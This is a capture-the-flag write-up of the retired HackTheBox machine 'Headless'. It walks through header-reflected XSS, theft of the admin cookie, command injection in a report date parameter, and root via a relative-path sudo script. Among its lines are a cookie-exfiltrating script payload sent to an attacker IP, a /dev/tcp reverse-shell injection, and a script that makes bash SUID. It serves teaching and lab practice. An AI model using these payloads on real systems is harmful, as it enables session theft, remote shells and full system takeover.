# Headless

```
Platform    : HackTheBox
OS          : Linux
Difficulty  : Easy
Category    : Web / XSS / Command Injection
IP          : 10.129.10.149
```

---

## Summary

The target ran a Flask application with a "hacking attempt detected"
protection page that blocked obvious payloads submitted through its
contact form — but that same protection page reflected request
headers back into the response without sanitization, opening a
header-based XSS. That was used to steal an admin session cookie
(`HttpOnly` was disabled), granting access to an admin dashboard whose
report-generation feature was vulnerable to OS command injection,
leading to a reverse shell. Local enumeration revealed a `sudo`-
permitted script vulnerable to PATH-relative execution, abused to set
the SUID bit on `/bin/bash` and gain root.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn --open 10.129.10.149 -oN scan.txt
nmap -p 22,5000 -sCV 10.129.10.149
```

Key findings:

- **Port 22** — OpenSSH 9.2p1 (Debian)
- **Port 5000** — Werkzeug/Flask (Python 3.11.2), showing an
  "Under Construction" placeholder page



---

## Exploiting XSS

A "For questions" link led to a `/support` contact form. A basic
script tag was submitted as a first test:



This triggered the application's input filter, which returned a
"Hacking Attempt Detected" page — but that page echoed the **entire
request back**, including all headers, directly into the HTML
response:



This meant the actual vulnerability wasn't in bypassing the form's
filter — it was in this block page reflecting headers unsanitized.
Testing with a harmless `User-Agent` value confirmed it:



```
User-Agent: hola
```



The `User-Agent` header was then set to an XSS payload instead:

```
User-Agent: <script>fetch('http://10.10.14.106:8000/xss_exitoso')</script>
```



Confirmed by a hit on a local listener. The payload was then
extended to exfiltrate `document.cookie`, made possible because the
session cookie had `HttpOnly` disabled:

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.106:8000/?cookie=" + document.cookie</script>
```



```
GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

The stolen `is_admin` cookie was set directly in the browser's
storage, replacing the unauthenticated session:



Reloading the page granted access to the admin dashboard:



---

## Foothold — Command Injection

The dashboard's "Generate a website health report" feature accepted a
`date` parameter. A normal request confirmed baseline behavior:



```
Systems are up and running!
```



Appending a shell metacharacter and a command tested for OS command
injection:

```
date=2023-09-15;id
```



```
Systems are up and running! uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```



Confirmed, the same injection point was used to deliver a reverse
shell (URL-encoded):

```
date=2023-09-15;bash -c "bash -i >& /dev/tcp/10.10.14.106/9001 0>&1"
```



Caught on a listener:

```
nc -lvnp 9001
```

```
dvir@headless:~/app$
```

The user flag was read directly, and `sudo -l` was checked immediately:

```
sudo -l
```

```
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

---

## Privilege Escalation

`/usr/bin/syscheck` was reviewed:

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  ...
```

The script checks for a running `initdb.sh` process, and if none is
found, executes `./initdb.sh` — a **relative path**, meaning it looks
for that file in whatever directory `syscheck` is invoked from,
rather than a fixed, trusted location. Since `dvir` could run
`syscheck` via `sudo` from any working directory, a malicious
`initdb.sh` was planted in the current directory:

```bash
touch initdb.sh
chmod +x initdb.sh
nano initdb.sh
```

```bash
#!/bin/bash
chmod u+s /bin/bash
```



Running the trusted `sudo` command triggered the planted script as
root:

```
sudo /usr/bin/syscheck
```

```
Database service is not running. Starting it...
```

```
ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```

With the SUID bit set, a new bash instance was spawned with
`-p` (preserving the effective UID from the SUID bit instead of
dropping it):

```
bash -p
```

```
bash-5.2# whoami
root
```

---

## Lessons Learned

- A visible "security" or "blocked" page is still application logic,
  and worth testing on its own — this page's job was to *deny*
  malicious input, but the way it reported back what it saw
  introduced its own, more serious vulnerability.
- Any value reflected in a response (headers included, not just form
  fields or URL parameters) is a potential XSS sink. Filters on the
  "obvious" input point (a form) don't protect every place user input
  ends up rendered.
- A disabled `HttpOnly` flag turns any XSS into session hijacking —
  worth checking cookie flags as soon as any reflection or injection
  point is found, since it changes the entire severity assessment.
- Features that generate reports, run diagnostics, or otherwise "do
  something with a date/parameter" on the backend are classic OS
  command injection candidates, especially when the output looks like
  it could be shelling out to system tools.
- `sudo`-permitted scripts that call other scripts or binaries by
  **relative path** are a common and easy-to-miss privilege escalation
  vector — always worth reading the full script when `sudo -l` shows
  something even slightly custom, not just trusting the binary name.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
